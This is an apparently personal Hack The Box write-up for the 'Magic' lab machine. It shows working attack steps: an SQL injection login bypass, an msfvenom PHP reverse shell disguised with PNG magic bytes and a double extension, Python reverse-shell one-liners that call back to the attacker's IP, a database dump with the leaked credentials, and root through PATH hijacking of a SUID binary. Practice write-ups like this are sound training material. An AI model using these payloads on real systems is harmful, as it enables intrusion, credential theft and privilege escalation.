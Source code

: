 ```yaml
---
title: Magic
date: 2020-07-07
hero: /images/content/posts/hack-the-box/magic.png
categories:
- hack-the-box
tags:
- linux
- path-hijacking
- mysql
- magic-bytes
- owasp-top-10
---
```


This box was really cool for a few reasons. First off we bypass authentication using one of the OWASP Top 10, then continue to upload a reverse shell by tricking the web server into believing we are uploading a .png file. This is done through some file manipulation and double extensions. To get user we needed to dump a database and for root we hijacked the command flow. Really fun and challenging!

## Tools

* nmap
* ffuf
* Burp Suite
* msfvenom
* python3
* mysql

## Recon

If we do an `nmap`, `sudo nmap -sS -sV magic.htb -oA nmap/magic` we can see that there are only two services, SSH and a web server. Now that we know there is a web server I am going to work on enumerating the domain using `ffuf`. The command I used is `ffuf -u http://magic.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .txt,.html,.xml,.php -o ffuf/magic` I used some common extensions in hope of finding some interesting files. It looks like most of the stuff running is `.php`.

My scans did not show up much so I decided to try my hand at the login page. Inspecting the source code did not turn up much however I noticed that I did get the error message when using the character `'`. This is a sign for SQL injection. However I was not allowed to type spaces in the login box so I opened up Burp Suite and turned intercept on. When submitting the form page I entered my URL encoded payload for the `username`. My payload was `' OR 1=1--` then I URL encoded it to `%27%20or%201%3D1--`. After executing this payload we make it to the upload page. We can create a reverse shell payload. I am going to try and craft a `php` payload because I know the website will execute `php`. 

Okay so after a few hours of trial and error I figured out that we can craft the payload using this command `msfvenom -p php/reverse_php LHOST=10.10.14.2 LPORT=1337 -f raw > shell.php`. However we cannot just upload this file because the server requires the file type to be `.jpg`, `.jpeg`, or `.png`. Try changing the file name to `shell.png`, maybe that will work. Nope they check for that too... however if we add the **magic** bytes of a `.png` file to the shell then we can upload it. To add these bytes use the following command `printf "�PNG

" | cat - shell.php > shell.png`. We can then open up our listener with the command `nc -lvnp 1337`, then navigate to the file on the website at `http://magic.htb/images/uploads/shell.png`. If we inspect our listener we notice nothing is happening. Hmm what is going on. Well the web server has no reason to run a `.png` file. However if we name the file `shell.php.png` then the webserver will run it and it has the required file extension to pass the upload. Try crafting the payload again with the two extensions. Use the command `printf "�PNG

" | cat - shell.php > shell.php.png`. Then if we navigate to the image, here `http://magic.htb/images/uploads/shell.php.png`, we should see something return on our listener. I tried upgrading the shell with `python -c 'import pty; pty.spawn("/bin/sh")'` however nothing happened. I even tried to use `python3`, then the shell hung. It looks like we are just going to have to use the weakish shell. Oh well.

## User

Now that we are on the server we can begin to investigating the `www-data` directory. I found a file called `db.php5`. When I `cat`ed this file out I found the following information:

```
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

Let's see if we can use these credentials to `ssh` into the user `theseus`. Oops doesn't look like it. But I should be able to use `su`. If only my reverse shell would stop dying. Doesn't look like `su` is working either, and I could not get a stable shell to work unfortunately. However I just thought of a way to maybe get a stable reverse shell. I successfully exfiltrated a list of readable files by spawning a simple http server using the command `python3 -m http.server` in our weak shell. This gave me the idea to maybe spawn another reverse shell. Use the command `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` in our weak instance and start to listen on port 1234 on your machine. Of course replace the IP address with your own internal IP. Now we have such a better shell, make sure you upgrade it using `python3 -c 'import pty; pty.spawn("/bin/sh")'`! Now we can see when we try to use the `su` command that we do not have the correct password. Well maybe there is something else on this machine that will use the password, like maybe the database that it corresponds too. So I was right. I could not find any database on the server, but with the command `mysqldump` we can use the credentials we found to dump the database because we have all the information we need. If I use the command `mysqldump -h localhost -u theseus -p Magic > db_backup.sql`, then we have created a plain text dump of the database. In here we find the following credentials:

```
admin::Th3s3usW4sK1ng
```

Turns out if we do `su` and use the password we are now the user `theseus`! What a relief to get user finally. Now onto the big goal.

## Root

Okay so I got `linPEAS` onto the machine and saw a file named `/bin/sysinfo`. At first I didn't know what to do because honestly that sounds like something that ships with the machine. However after some more research I found a CVE for it. unfortunately this didn't work because we are missing the `.mcsiwrapper`. So I continued to enumerate the machine for some time and was fixated for a while on the command `/sbin/init`. This does ship with the machine and isn't our target. I then ran `suid3num` which tells us which SUID scripts do not ship with the machine. This brought me back to `sysinfo` and decided to run `strings` on it. Turns out it does run escalated privileges, and it also uses a few commands, such as `fdisk` and `lshw`. If we were to maybe define our own version of one of these commands maybe we could execute some code as a privileged user. Here is how I crafted my payload.

```
theseus@ubuntu:~# cd /tmp
theseus@ubuntu:/tmp# touch fdisk
theseus@ubuntu:/tmp# chmod 777 fdisk
theseus@ubuntu:/tmp# export PATH=/tmp:$PATH
theseus@ubuntu:/tmp# echo bash > fdisk
theseus@ubuntu:/tmp# sysinfo
```

Okay so what is going on here? Well first we are moving to the `/tmp` directory and creating a file named `fdisk`. This is because we know that `sysinfo` uses a command called `fdisk`. Then we change the permissions of `fdisk` so that it can be executed. Next we need to prioritize the `/tmp` directory in out `PATH` so when `sysinfo` is looking for the location of `fdisk` it runs into our version first. Finally I echo the command I want to run into the `fdisk` file and then call `sysinfo`. Once we run `sysinfo` we spawn into a shell, but we cannot do anything, so then I created another reverse shell with the command `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.2",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`. I tried placing this command inside my `fdisk` file, but it would not execute for some reason. But now we are root! Congratulations, my first medium box is complete!

```
root@ubuntu:~# whoami
root
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
root@ubuntu:~# ifconfig | grep 10.10.10.185
inet 10.10.10.185  netmask 255.255.255.0  broadcast 10.10.10.255
root@ubuntu:~# hostname
ubuntu
```
